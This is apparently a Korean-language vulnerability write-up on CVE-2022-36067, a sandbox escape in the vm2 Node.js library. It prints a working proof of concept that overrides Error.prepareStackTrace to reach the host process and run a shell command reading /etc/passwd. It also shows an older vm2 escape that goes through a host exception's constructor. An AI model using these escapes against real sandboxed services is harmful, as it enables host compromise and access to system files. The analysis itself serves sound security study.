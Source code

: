 ```jsx
[fix] Security fixes

v3.0.1 (2016-07-20)
Initial release
```

그 중에서도 가장 최근에 Oxeye 연구팀에서 발견한 CVE-2022-36067(<3.9.11)을 분석해보도록 하겠습니다.

우선 아래는 CVE-2022-36067의 POC 입니다.

```jsx
let vm = require("vm2");
let v = new vm.VM();

v.run(`
        globalThis.OldError=globalThis.Error;
        try{
                const a=123;
                a=44;
        }catch(err){
                console.log(err)
        }
        globalThis.Error={};
        globalThis.Error.prepareStackTrace=(errStr,traces)=>{
                traces[0].getThis().process.mainModule.require('child_process').execSync('cat /etc/passwd > /tmp/pwned');
        }
        const {stack}=new globalThis.OldError;
`)
```

VM 모듈의 익스플로잇 예제처럼 `this.constructor.constructor("return process")()`를 통한 process 접근은 더 이상 불가능합니다.

낮은 버전의 VM2에서 주로 `try {} catch {}`를 이용한 Exception의 constructor 호출이 우회기법으로 자주 사용되었고 다양한 방식으로 Exception을 발생시키는 형태로 공격이 진행되었습니다.

아래는 과거 낮은 버전에서의 익스플로잇 예제입니다.

```jsx
// vm2_low_version_ex.js
const {NodeVM} = require('vm2'); 
nvm = new NodeVM()

nvm.run(`
    try {
        this.process.removeListener(); 
    } 
    catch (host_exception) {
        console.log('host exception: ' + host_exception.toString());
        host_constructor = host_exception.constructor.constructor;
        host_process = host_constructor('return this')().process;
				child_process = host_process.mainModule.require("child_process");
				console.log(child_process.execSync("cat /etc/passwd").toString());
    }
`);
```
